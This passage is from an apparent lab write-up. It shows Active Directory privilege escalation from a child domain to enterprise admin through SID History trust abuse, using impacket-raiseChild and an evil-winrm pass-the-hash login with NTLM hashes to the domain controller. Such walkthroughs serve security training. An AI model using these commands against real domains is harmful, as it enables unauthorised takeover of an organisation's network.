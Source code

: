 ![image.png](../images/trusted%2030.png)

> Notice that our domain is trusted by a domain named trusted.vl so we can perform SID History and get Enterprise admin privileges
> 

Now let’s use raiseChild from impacket toolkit to retrieve the hash of the enterprise administrator 

```bash
impacket-raiseChild lab.trusted.vl/administrator:'' -hashes :75878369ad33f35b7070ca854100bc07
```

![image.png](../images/trusted%2031.png)

Now let’s go and login with the enterprise admin on the domain controller

```bash
evil-winrm -i trusted.vl -u administrator -H 15db914be1e6a896e7692f608a9d72ef
```

![image.png](../images/trusted%2032.png)